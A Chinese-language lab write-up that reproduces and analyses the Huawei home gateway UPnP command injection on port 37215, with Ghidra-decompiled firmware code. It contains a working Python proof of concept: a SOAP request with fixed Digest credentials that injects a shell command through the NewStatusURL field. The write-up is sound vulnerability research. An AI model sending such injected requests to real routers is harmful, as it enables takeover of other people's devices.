 环境启动成功  
## 漏洞复现  
```
import requests   
headers = {  
    "Authorization": "Digest username=dslf-config, realm=HuaweiHomeGateway, nonce=88645cefb1f9ede0e336e3569d75ee30, uri=/ctrlt/DeviceUpgrade_1, response=3612f843a42db38f48f59d2a3597e19c, algorithm=MD5, qop=auth, nc=00000001, cnonce=248d1a2560100669"
}  

data = '''<?xml version="1.0" ?>  <s:Envelope xmlns:s="http://schemas.xmlsoap.org/soap/envelope/" s:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">    <s:Body><u:Upgrade xmlns:u="urn:schemas-upnp-org:service:WANPPPConnection:1">     <NewStatusURL>;mkdir test_shell;</NewStatusURL>     <NewDownloadURL>HUAWEIUPNP</NewDownloadURL>    </u:Upgrade>  </s:Body>  </s:Envelope>  '''
requests.post('http://192.168.153.3:37215/ctrlt/DeviceUpgrade_1',headers=headers,data=data)

```  
  
![图片.png](https://mmbiz.qpic.cn/sz_mmbiz_png/veA9QmcJk5n7YfaR2wv4fMT6KUTjZ1ZETeOfIwUrs5OzVpSS8miaswziauVM1pO1A2VInaIX9JsHsQEafy2Tgia1w/640?wx_fmt=png&from=appmsg "")  
  
注入成功  
## 漏洞分析  
  
漏洞首发于CheckPoint，其漏洞报告中描述了漏洞利用的一些细节：  
  
华为家庭网关利用标准化的UPnP协议（基于TR-064技术报告）来简化和无缝连接网络配置，广泛应用于嵌入式设备中。这些设备通常用于家庭和企业的本地网络配置，比如设备配置和固件升级。然而，在目标路由器中，TR-064通过37215端口暴露于WAN。具体到这款路由器，其UPnP实现支持DeviceUpgrade  
服务类型，该服务通过在URL /ctrlt/DeviceUpgrade_1  
 接收请求执行固件升级，并使用NewStatusURL  
和NewDownloadURL  
两个SOAP元素。然而，这两个元素存在命令注入漏洞，导致安全风险。  
### 分析upnp  
  
跟踪"NewStatusURL" 用ida分析发现  
  
![图片.png](https://mmbiz.qpic.cn/sz_mmbiz_png/veA9QmcJk5n7YfaR2wv4fMT6KUTjZ1ZEkVKlP1CDxcfjzM9S4IQZuEyGhGkY5qJtoFDsOoibvMlRSMA5ibE8kaTA/640?wx_fmt=png&from=appmsg "")  
  
直接看汇编可能不是很能看出来 我们通过ghidra 进行分析  
  
![图片.png](https://mmbiz.qpic.cn/sz_mmbiz_png/veA9QmcJk5n7YfaR2wv4fMT6KUTjZ1ZEkVKlP1CDxcfjzM9S4IQZuEyGhGkY5qJtoFDsOoibvMlRSMA5ibE8kaTA/640?wx_fmt=png&from=appmsg "")  
```
intFUN_0040749c(int param_1){  
int iVar1;  
char *local_418;  
char *local_414;  
char acStack1040 [1028];  

  iVar1 = ATP_XML_GetChildNodeByName  
                 (\*(int *)(param_1 + 0x2c),"NewDownloadURL",(int *)0x0,&local_418);  
if (((iVar1 == 0) && (local_418 != (char *)0x0)) &&  
     (iVar1 = ATP_XML_GetChildNodeByName  
                     (\*(int *)(param_1 + 0x2c),"NewStatusURL",(int *)0x0,&local_414), iVar1 == 0)) {  
    if (local_414 != (char *)0x0) {  
      snprintf(acStack1040,0x400,"upg -g -U %s -t \\'1 Firmware Upgrade Image\\' -c upnp -r %s -d -b",  
               local_418,local_414);  
      system(acStack1040);  
    }  
  }  
return iVar1;  
}

```